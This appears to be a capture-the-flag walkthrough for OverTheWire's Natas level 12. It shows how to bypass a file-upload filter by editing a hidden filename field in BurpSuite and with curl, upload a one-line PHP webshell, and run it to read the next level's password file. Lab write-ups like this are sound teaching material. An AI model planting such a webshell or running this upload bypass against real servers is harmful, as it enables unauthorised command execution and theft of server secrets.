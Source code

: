 
> We see that through the source code when we upload a file, the extension is kept the same but with a randomized name.

![](./screenshots/12-1.png)

> Therefore, we can upload a `.php` file that contains the code of a webshell.

```php
<?
system($_GET('cmd'));
?>
```
> `mins.php` is the file name.

> However, the file gets stored in the server as a `.jpg` file as we see here in the source code.
> The second `input` field with name `filename`.

![](./screenshots/12-2.png)

> Therefore, we need to change the value of this `input` field to end in `.php`.

> Since this is a form, then it uses the `POST` method.
> We can change these hidden parameter values using BurpSuite proxy.
> Uploading the php code we have above and intercepting the request.

![](./screenshots/12-3.png)

> We see in line 21 the parameter `filename`, and we changed it to `.php` so that it executes as php.
> We see in line 25 the parameter `uploadedfile` and it is the name of the file we uploaded, which is `mins.php`.
> And in line 28 we see the file contents, which is the php webshell script.

> Sending this request, we see the response: 

![](./screenshots/12-4.png)

> If we visit this URL, we can insert query parmaters with the `cmd` parameter name and `cat%20/etc/natas_webpass/natas13` to get the password of the next level.

![](./screenshots/12-5.png)

> We see the response with the password:
```
natas13:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

---

###### Using `curl`

> We must supply all form paramet
```bash
curl -u natas12:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG -F "filename=anything.php" -F "uploadedfile=@./mins.php" http://natas12.natas.labs.overthewire.org/  
```
> We made the parameter `filename` have the extension `php` as required, and uploaded the `mins.php` file in the `uploadedfile` parameter.

![](./screenshots/12-6.png)

> We see that it is uploaded to `upload/j1xrcjiztr.php`.
> Visiting that path and specifying the command to open the password file.

```bash
curl -u natas12:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG  http://natas12.natas.labs.overthewire.org/upload/j1xrcjiztr.php?cmd=cat%20/etc/natas_webpass/natas13
```

> We get the password.

```
natas13:lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

---
